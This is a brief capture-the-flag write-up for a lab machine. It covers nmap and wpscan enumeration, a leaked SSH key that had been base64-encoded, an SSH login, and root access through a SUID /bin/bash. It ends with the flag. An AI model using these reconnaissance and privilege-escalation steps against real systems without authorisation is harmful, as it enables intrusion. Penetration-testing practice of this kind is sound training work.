 We start to enumerate the machine with an nmap scan: 
```
nmap -sV -sC -T4 -vv 10.0.0.20
```
ports 80 & 22 are open. We alos found the secret.txt file with the scan as well and got a base 64 encrypted message that we decrypted into an ssh key with cyberchef.

We visit the website and find out that it is a wordpress website and begin to use wpscan"
```
wpscan --url http://10.0.0.20/ 

wpscan --url http://10.0.0.20/ -e u 
```

We founbd both the admin user and the oscp user.

and decided to try and ssh in with the oscp user :
```
ssh -i id_rsa oscp@10.0.0.20
```
we then ran the command
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
and found out that we could run /bin/bash with suid priveleadges
```
/bin/bash -p
```
System has been rooted action is no longer required.

flag:
```
d73b04b0e696b0945283defa3eee4538
```

